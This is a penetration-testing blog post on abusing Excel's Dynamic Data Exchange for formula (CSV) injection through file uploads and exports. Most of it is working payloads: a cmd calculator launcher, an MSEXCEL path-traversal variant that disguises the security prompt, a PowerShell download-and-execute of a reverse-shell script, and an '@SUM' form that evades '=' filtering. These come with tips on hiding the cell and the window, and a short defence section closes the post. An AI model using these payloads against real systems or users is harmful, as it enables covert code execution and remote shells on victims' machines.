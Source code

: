 ```yaml
---
layout: page
sidebar: right
subheadline: 'Pentesting'
title:  "Living Off the Land With DDE"
teaser: "A pen tester's guide to using native Windows programs and tools, specifically  Dynamic Data Exchange (DDE), to excel in your next PenTest!"
breadcrumb: true
categories:
    - infosec
tags:
    - blog
    - infosec
    - post
    - pentesting
    - office
    - windows
image:
    thumb: lol-dde/DDE-Excel2.png
    title: lol-dde/DDE-Excel2.png
---
```


I'm a huge fan of living off the land when it comes to hacking and working my way through a network. There are few things that feel better than taking a perfectly reasonable tool and flipping it inside out for my own benefit.

Recently, I was working on a penetration test for a web application, and I found a file upload function that allowed users to upload and download Excel files. The first thing that came across my mind - macros. But when I tried to upload a macro-enabled xlsm file, I was denied.

So I started hunting for other ways to exploit within file uploads. I knew about weaponized PDFs and other run-of-the-mill methods, but those seemed boring, and I was trying to be a little more original. I thought to myself, "It would be Excel-ent to be able to do this without macros..." 

        (•_•)               ( •_•)>⌐■-■            (⌐■_■)

Like most professionals, I realized I knew nothing and went to Google for help. I searched for how to load a payload into an excel without macros, expecting nothing, and was surprised to find my new favorite “feature” (keep reading) - Dynamic Data Exchange.
# Dynamic Data What Now?
According to Wikipedia, Dynamic Data Exchange (DDE) was first introduced in 1987 as a method to share data between applications in such as way that if it was updated in one, it would be updated in the other. Sounds great right? Well as it turns out, application and network security practices were not as important in 1987 as they are today - and that's saying something.

Microsoft implements DDE within its Office suite of applications to allow the transfer of data in a variety of ways. As a matter of fact, it’s still documented on microsoft.com as a feature included with Office ["for one-time data transfers and for continuous exchanges in which applications send updates to one another as new data becomes available."](https://docs.microsoft.com/en-us/windows/desktop/dataxchg/about-dynamic-data-exchange)

The basic idea is that you can have a spreadsheet or document that subscribes to an outside data source and automatically updates when changes occur. In theory, that sounds very helpful and is probably very useful in financial or medical spaces. However, there is a dark side to this force.
# Living Off the Land with DDE
As it turns out, DDE commands can execute just about any program - not to sugar coat it too much. Worse still, they can mask what programs they are executing. To a user opening an Excel document, nothing really looks out of the ordinary.

Even with the warning messages that Microsoft now forces them to display before they run, a typical user will probably do what they always do and click right on through. More than likely they downloaded the document from a trusted source.

What might be the worst part about this whole attack vector, though, is that this feature is built into every modern version of Office. Virtually every desktop computer running in an office can be exploited by DDE, and if it's done correctly, the user probably won't even know.
# So How Do You Do It?
As I mentioned above, DDE is a feature built into Microsoft Office, meaning it can be used within Word, Excel, and other applications. This article will focus on Excel, but vectors have been discovered for using the same principles in the other Office programs like Word and Outlook as well.

Starting off in the most basic and benign way possible, I will show how to use a DDE payload in Excel to open a calculator.
<figure style="text-align:center; margin:1em">
<img src="/resources/content/images/2018/12/calc-cmd.gif" alt="DDE-Calc">
<figcaption style="font-size:small">
 =CMD|'/c calc.exe'!'a1'
</figcaption>
</figure>

# Let's Break This Down
When Excel comes across a '=' it knows to evaluate the contents of the cell. Normally, this is used to add something or run a built-in Excel function, but DDE allows a user to run any executable. One such function that is allowed by default is cmd. By using cmd, the following arguments take the same set of options as a standard Windows command prompt. I used '/c' in this example to run the program called and then terminate the promp, but you could use ‘/k’ to leave the shell running if you wanted to. After that, it's just a matter of picking a program like calc.exe and finishing the DDE syntax for Excel.
# Let's Make This Sneakier
So that payload will let you run just about anything installed on the computer (actually…really anything), but a warning will pop up asking the user if they want to run CMD.EXE. That's not exactly the friendliest warning - even though people just say ok to pop-ups anyway. But we can do better.
<figure style="text-align:center; margin:1em">
<img src="/resources/content/images/2018/12/dde-calc-obfuscated.gif" alt="DDE-Calc">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c calc.exe'!'a1'
</figcaption>
</figure>

This doesn't do anything different, except now the warning message asks to run MSEXCEL.EXE. Well, of course the user wants to run MSEXCEL.EXE - that's what they clicked on in the first place. The rest of the payload just brings the exploit back to using cmd.exe with the same options as before, and a new calculator is born!

In addition, feel free to hide the cell in the spreadsheet. When these payloads execute, they tend to leave behind a reference error. A hidden field (maybe in the 1000th row) won't draw as much attention if a spreadsheet is loaded with a bunch of decoy data.
# Let's Make This Scarier
So now we basically have a well-hidden payload that opens a calculator...yay. But if you remember, DDE can be used to run any command. In the spirit of continuing to live off the land, let's try PowerShell.

<figure style="text-align:center; margin:1em">
<img src="/resources/content/images/2018/12/dde-shell-obfuscated.gif">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c powershell.exe $e=(New-Object System.Net.WebClient).DownloadString(\"http://127.0.0.1/revshell.ps1\");powershell $e'!'a1'
</figcaption>
</figure>


Nice. A one-line PowerShell script to download what appears to be a reverse shell and execute it. This particular script will open a PowerShell window, but adding '-windowstyle hidden' should take care of that, and frankly the damage is already done.  Plus, we still haven't used anything that Microsoft didn’t give us for free (er…“free”). That isn't to say we couldn't. We can download anything and run it.

<figure style="text-align:center; margin:1em">
<img src="/resources/content/images/2018/12/dde-chrome-obfuscated.gif">
<figcaption style="font-size:small">
=MSEXCEL|'..\..\..\..\Windows\system32\cmd.exe /c "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"'!'a1'
</figcaption>
</figure>

# Let's Make This More Flexible
In some cases, the payloads above won't work. For example, I once tried to use DDE in a CSV export function (by the way...this works for any type of file that can be opened in Excel) that took user input and sent it to a file that can be saved to a user's machine. I saved the payload into the application, but when I downloaded the CSV, the '=' was removed. It looked like game over, but guess what.

What?

It wasn’t.
 
<figure style="text-align:center; margin:1em">
<img src="/resources/content/images/2018/12/dde-calc-with-at-sign.gif">
<figcaption style="font-size:small">
@SUM(cmd|'/c calc.exe'!a1)
</figcaption>
</figure>

Turns out, the '@' sign is a valid evaluation prefix as well. The same rules apply as all the previous payloads. The initial CMD can be replaced by MSEXCEL, and feel free to go beyond the dreaded calculator.
# Defend Yourselves
The best way to defend against malicious DDE payloads is to limit the types of files that can be uploaded to only the most necessary for your workflow. If you don't need Excel-style files, don't allow them - even if macros are disabled.

Additionally, applications that export user-defined fields to Excel-friendly files should not allow DDE payloads as input. This means filtering '=' and '@' for sure, but really anything that falls outside the scope of the application's requirements.  If you NEED to use ‘=’ and ‘@’ at the beginning of a text field I suppose you can add a single quote to the front of the value when it’s exported.  Doing so will keep Office from evaluating what comes next.  But you probably don’t NEED them anyway – unless you are promoting a twitter handle (say for example, [@_hansonet_](https://twitter.com/_hansonet_)).
# Final Notes
The most surprising thing about this particular security issue is that I had never heard of it before. Between classes, conversations, and conventions, I had never heard anyone even mention what I believe is a fairly effective, and dangerous security hole. Apart from a couple of very recent blog posts, there wasn't much to go off of, but a lot to be gained by looking into DDE.

DDE is a feature, not likely to go away any time soon. At the time of this writing, Microsoft has disabled automatic execution and presents a warning prompt, but how often does depending on user work as an effective defense? The only real defense is to limit file uploads, inspect file content, and filter user input.  Enjoy, and leave a comment if you’ve had any personal success with this!
